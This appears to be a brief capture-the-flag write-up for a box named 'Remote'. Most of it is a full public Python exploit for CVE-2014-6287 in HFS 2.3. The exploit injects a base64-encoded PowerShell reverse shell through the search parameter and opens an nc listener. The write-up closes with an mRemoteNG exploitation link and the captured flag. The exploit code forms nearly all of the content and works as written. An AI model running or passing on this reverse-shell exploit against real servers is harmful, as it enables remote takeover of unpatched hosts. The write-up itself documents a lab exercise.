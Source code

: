 # Remote

## Nmap scan

```
http://3.101.101.0:1337
```

```
searchsploit HttpFileServer 2.3
```

<img width="1132" height="166" alt="image" src="https://github.com/user-attachments/assets/2709a9d9-dac9-463d-bcdb-67684e4198ef" />


## edit script

```
# Exploit Title: HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 20/02/2021
# Exploit Author: Pergyz
# Vendor Homepage: http://www.rejetto.com/hfs/
# Software Link: https://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Microsoft Windows Server 2012 R2 Standard
# CVE : CVE-2014-6287
# Reference: https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands

#!/usr/bin/python3

import base64
import os
import urllib.request
import urllib.parse

lhost = "10.10.16.218"
lport = 1337
rhost = "10.10.10.8"
rport = 80

# Define the command to be written to a file
command = f'$client = New-Object System.Net.Sockets.TCPClient("{lhost}",{lport}); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{{0}}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}}; $client.Close()'

# Encode the command in base64 format
encoded_command = base64.b64encode(command.encode("utf-16le")).decode()

# Define the payload to be included in the URL
payload = f'exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand {encoded_command}'

# Encode the payload and send a HTTP GET request
encoded_payload = urllib.parse.quote_plus(payload)
url = f'http://{rhost}:{rport}/?search=%00{{.{encoded_payload}.}}'
urllib.request.urlopen(url)
print("[+] Encoded the payload and sent a HTTP GET request to the target")

# Print some information
print("lhost: ", lhost)
print("lport: ", lport)
print("rhost: ", rhost)
print("rport: ", rport)
print("payload: ", payload)

# Listen for connections
os.system(f'nc -nlvp {lport}')
```




---
---


<img width="410" height="300" alt="image" src="https://github.com/user-attachments/assets/29f9ef4d-a66e-4bd4-8283-f491e5c1c71f" />


```

```

https://vk9-sec.com/exploiting-mremoteng/


## **`password`**

```
aw3s0m3_r3m0te_fl4g
```




























